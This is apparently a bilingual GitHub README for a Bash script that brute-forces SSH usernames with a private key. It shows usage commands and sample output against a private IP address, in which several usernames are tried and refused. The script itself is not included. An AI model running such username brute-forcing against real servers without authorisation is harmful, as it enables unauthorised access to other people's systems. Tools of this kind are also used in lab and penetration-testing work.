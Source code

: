 # BruteForce SSH with Private Key
 Bash script to bruteforce a username using an SSH private key.
 
 Script bash permettant de bruteforce un nom d'utilisateur en utilisant une clef privée SSH.

## Usage

```
$ chmod 600 id_rsa
$ chmod +x bruteforce-ssh.sh
$ ./bruteforce-ssh.sh
Usage: ./bruteforce-ssh.sh <target_ip> <port> <key_path> <usernames_file>
$ ./bruteforce-ssh.sh 192.168.209.177 22 id_rsa user.txt 
Testing root...
root@192.168.209.177: Permission denied (publickey,password,keyboard-interactive).
Testing admin...
admin@192.168.209.177: Permission denied (publickey,password,keyboard-interactive).
Testing test...
```

